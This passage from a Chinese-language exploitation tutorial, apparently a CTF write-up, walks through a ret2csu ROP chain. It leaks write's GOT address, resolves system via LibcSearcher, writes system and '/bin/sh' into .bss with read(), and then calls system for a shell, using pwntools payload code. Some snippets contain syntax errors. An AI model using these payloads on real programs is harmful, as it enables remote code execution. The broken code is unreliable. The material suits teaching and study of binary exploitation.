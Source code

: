 这段paylod输入后，栈的布局如下：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2csu/c11.png?x-oss-process=style/watermark)

**第一个p64(0)相当于填充数据**。因为调用gadgets1后，rsp就会+8，此时rsp就位于第一个p64(0)的位置。执行call gadgets1时，会依次把参数传给寄存器，。gadget1执行完后，rsp就会转到rsp+0x38的位置，也就是gadget2的位置，此时开始执行gadget2：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2csu/c12.png?x-oss-process=style/watermark)

write 函数原型是 write(1,address,len) ，1表示标准输出流 ，address 是 write 函数要输出信息的地址 ，而 len 表示输出长度。通过gadgets2，write 函数需要的参数刚好被部署好。即wite(1,got_write,8)，也就是将got_wirte的地址打印到屏幕上。然后通过 call(r12+rbx8) 调用write_got地址，执行write函数。write函数执行完毕，回到gadgets2继续执行（add rbx,1），使得下一条cmp比较跳转指令相等，不进行跳转，继续执行下面的指令，也就是 gadgets1（已经利用过，之后怎么样无所谓）。gadgets1 里面有一段 add rsp,38h 所以还要填充 38h 个字节把这一段填充掉，也就是payload里面的 ’00’*56 ，使得gadgets1返回的时候是我们写在栈上的 main_addr。也就是是返回主函数重新执行一遍。

泄露了write函数真实地址后，就可以搜索libc版本，然后通过计算偏移找到system的地址。

```python
libc=LibcSearcher('write',write_addr)
libc_base=write_addr-libc.dump('write')
sys_addr=libc_base+libc.dump('system') 
```

## 3.2 写入system地址和参数

先给出payload：

```python
payload2 =  "\x00"*136 + p64(gadgets1) + p64(0) + p64(0) + p64(1) + p64(got_read) + p64(0) + p64(bss_addr) + p64(16)
payload2 += p64(gadgets2) + "\x00"*56 + p64(main_addr)
```

通过两段gadgets，我们构造了read函数参数并调用，向bss段写入数据。

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2csu/c13.png?x-oss-process=style/watermark)

read函数的参数从文件中读取东西放到内存中，第三个参数表示读取长度。read (0,bss_addr,16) 向bss_addr处写入最大16字节的内容。

执行完毕后，我们发送system地址和bin/sh字符串，即将system地址写到bss_addr处，将bin/sh写到bin_addr+8处。

```python
p.send(p64(sys_addr)
p.send("/bin/sh\0")
```

## 3.3 执行system函数

先给出payload：

```
payload3 =  "\x00"*136 + p64(gadgets1) + p64(0) +p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0) +
payload3 += p64(gadgets2) + "\x00"*56 + p64(main_addr)
```

两端gadgets执行如下：
